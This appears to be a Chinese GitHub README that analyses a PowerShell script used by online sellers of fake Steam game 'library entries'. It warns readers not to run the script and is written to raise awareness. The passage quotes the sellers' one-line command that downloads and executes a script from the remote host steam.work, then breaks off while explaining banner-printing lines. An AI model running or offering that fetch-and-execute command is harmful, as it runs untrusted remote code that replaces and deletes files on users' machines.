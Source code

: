 # 关于steam假入库的脚本分析

## 1.写在前面

**不推荐任何人,以任何理由,任何方式来运行和使用这些脚本,仅限科普使用!!**

由于逛电商平台时看见好多极高销量的假入库商家,就浅浅研究了一下商家提供的假入库的脚本,具体内容如下

技术水平有限,如有理解不到位的地方请指出

## 2.命令分析

一般情况下,假入库商家会提供一个代码让你运行

```powershell
irm steam.work|iex
```

解析:从链接`steam.work`下载脚本文件并直接执行

通过以下代码可以将脚本不运行下载到本地

```powershell
irm steam.work | Out-File -FilePath "D:\temp\stwork\sw.ps1"
```

下载内容即为库中的`sw.ps1`(不要自己去运行下载的脚本!)

## 3.简单概述

该脚本就是通过替换与删除steam文件来实现虚假入库的操作

## 4.脚本分析

#### 无风险部分

第一行:

```powershell
cls
```

清空powerShell屏幕



第2~22行:

```powershell
Write-Host -NoNewline "          _____                _____                    _____                    _____                    _____          `r" -ForegroundColor:blue
Write-Host -NoNewline "         /\    \              /\    \                  /\    \                  /\    \                  /\    \         `r" -ForegroundColor:blue
Write-Host -NoNewline "        /::\    \            /::\    \                /::\    \                /::\    \                /::\____\        `r" -ForegroundColor:blue
Write-Host -NoNewline "       /::::\    \           \:::\    \              /::::\    \              /::::\    \              /::::|   |        `r" -ForegroundColor:blue
Write-Host -NoNewline "      /::::::\    \           \:::\    \            /::::::\    \            /::::::\    \            /:::::|   |        `r" -ForegroundColor:blue
Write-Host -NoNewline "     /:::/\:::\    \           \:::\    \          /:::/\:::\    \          /:::/\:::\    \          /::::::|   |        `r" -ForegroundColor:blue
Write-Host -NoNewline "    /:::/__\:::\    \           \:::\    \        /:::/__\:::\    \        /:::/__\:::\    \        /:::/|::|   |        `r" -ForegroundColor:blue
Write-Host -NoNewline "    \:::\   \:::\    \          /::::\    \      /::::\   \:::\    \      /::::\   \:::\    \      /:::/ |::|   |        `r" -ForegroundColor:blue
Write-Host -NoNewline "  ___\:::\   \:::\    \        /::::::\    \    /::::::\   \:::\    \    /::::::\   \:::\    \    /:::/  |::|___|______  `r" -ForegroundColor:blue
```